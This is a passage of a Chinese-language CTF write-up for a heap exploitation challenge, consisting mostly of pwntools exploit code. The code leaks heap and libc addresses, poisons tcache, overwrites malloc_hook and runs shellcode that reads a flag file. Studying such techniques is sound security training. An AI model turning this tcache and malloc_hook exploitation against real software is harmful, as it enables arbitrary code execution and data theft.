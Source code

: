 ![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210319235505.png)

然后泄露出地址，并分配到`tcache_perthread_struct`

```python
# get heap addr
heap_addr = show_note(1)
tcache_struct = heap_addr - 0x360
add_note(0x100) # 2
edit_note(2, p64(tcache_struct) * 2)

add_note(0x100) # 3
add_note(0x100) # 4 tcache struct 
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210319235634.png)

可以看到，`0x100`大小的`chunk`的`count`变成了`-1`

分配到`0x66660000`

```python
edit_note(4, 0xb8 * b'\x00' + p64(0x66660000))
# 0x66660000 chunk
add_note(0x100) # 5
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210319235816.png)

写入`shellcode`到`0x66660000`

```python
shellcode = shellcraft.open('flag', 0)
shellcode += shellcraft.read(3, 0x66660300, 0x30)
shellcode += shellcraft.write(1, 0x66660300, 0x30)
edit_note(5, asm(shellcode))
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210319235924.png)

泄露`libc`地址，并且计算出`malloc_hook`地址

```python
del_note(0)
main_arena_96 = show_note(0)
malloc_hook = main_arena_96 - 0x70
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210320000120.png)

分配到`malloc_hook`，写入`0x66660000`，并执行一次`add_note`

```python
add_note(0x100) # 6
edit_note(6, p64(0x66660000))

io.sendlineafter("Your Choice: ", '1')
io.sendlineafter("size: ", str(100))
```
